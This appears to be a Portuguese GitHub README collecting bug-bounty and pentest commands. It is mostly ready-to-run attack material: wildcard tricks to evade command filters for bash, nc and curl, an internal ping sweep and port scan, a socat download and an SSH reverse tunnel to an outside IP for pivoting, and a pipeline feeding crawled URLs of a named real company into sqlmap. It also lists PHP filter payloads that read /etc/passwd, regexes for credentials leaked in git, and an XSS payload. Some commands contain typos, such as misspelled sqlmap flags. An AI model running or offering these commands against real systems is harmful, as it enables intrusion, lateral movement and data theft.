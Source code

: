 # Bugbounts-ferramentas-e-tutoriais

Esse script baixa as ferramentas mais utilizadas em pentest e bounts, cria arquivos txt passando como usa cada uma, e ainda baixa wordlists mais atuais de parâmetros, dns, diretorios e etc...
<h1>Bypass de bash use a imaginação, aqui está alguns exemplos</h1>
/bin/b??? -p || /bi?/b??? -p = bash</br>
/bin/ne?c?t || /bi?/ne?c?t = nc </br>
/bin/p?t?o?3 || /bi?/p?t?o?3 = python3</br>
/bin/p?t?o?2 || /bi?/p?t?o?2 = python2</br>
/bin/c??l || /bi?/c??l = curl </br>
/bin/w??t || /bi?/w??t = get</br>

<h1>Para fazer um scan na rede do alvo procurando novos ips internos ativos com portas abertas</h1>
route|awk '{print $1}'|grep [[:digit:]] || ip route list |awk '{print $1}'|grep [[:digit:]];echo -e "\e[1;41;1;45mColoqueo ip assim -----> 172.0.0. tire o ultimo numero\e[0m" ;echo -en "Escolha o ip e coloque aqui -->: ";read num ; for i in $(seq 1 255);do ping -W 1 -c 1 $num$i | grep '64 bytes' | awk {'print $4'} | sed 's/.$//g';done > ipvalidos.txt ;for a in $(cat ipvalidos.txt);do nc -nv -w 1 -z $a 80 443 22 21 3306 25 445 139;done
</br>
<h2>Dowlonad do socat para o pivoting</h2>

Comand = wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat;chmod +x socat ;./socat -h

Tutorial = https://deephacking.tech/pivoting-con-socat/
</br>
Uso= ./socat tcp-l:7878,fork,reuseaddr tcp:172.16.0.147:80 &


<h2>Pegando params para sqli</h2>

pegando target das url: 

subfinder -d tesla.com -silent -all | httpx -silent -threads 100 | katana -d 4 -jc -ef css,png,svg,ico,woff,gif | tee -a urls.txt

filtrando potenciais sqli: 

cat urls | gf sqli | tee -a sqli.txt
</br>
gf = (ssrf,xss,ssti,sqli,redirect,rce,lfi,jsvar,interestingsubs,insterestingparams,interestingEXT,ido,dbug)

jogando para sqlmap:

while read line; do sqlmap -u $line --parse-erros --current-db --invalid-logical --invalid-bignum --invalid-string --riks 3;done < sqli.txt

<h1>Filters PHP</h1>
php://filter/string.toupper/string.rot13/string.tolower/resource=file:///etc/passwd</br>
php://filter/zlib.deflate/convert.base64-encode/resource=file:///etc/passwd</br>
php://filter/convert.iconv.utf-8.utf-16le/resource=data://plain/text,trololohellooo=</br>
php://filter/convert.quoted-printable-encode/resource=data://plain/text,£hellooo=</br>
php://filter/convert.quoted-printable-encode/resource=data://plain/text,£hellooo=</br>
php://filter/convert.base64-decode/resource=data://plain/text,aGVsbG8=</br>
php://filter/string.strip_tags/resource=data://text/plain,<b>Bold</b><?php php code; ?>lalalala</br>
php://filter/string.toupper/string.rot13/string.tolower/resource=file:///etc/passwd</br>
php://filter/read=string.toupper|string.rot13|string.tolower/resource=file:///etc/passwd</br>

<h1>Git exposed credentias com regex</h1>
/ssh:\/\/.*:.*@.*target\.com/</br>
/ftp:\/\/.*:.*@.*taget\.com/</br>
/ssh:\/\/.*:.*@.*\.com/ NOT "git"</br>

<h1>Log ssh pivoting rota interna </h1>
ssh -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null -i ./id_rsa -R 8888:10.0.1.2:80 -N teste@103.106.0.2 &
</br>
<h2>Paylad xss bons</h2>
%22%20onbeforeinput=alert(document.domain)%20contenteditable%20alt=%22

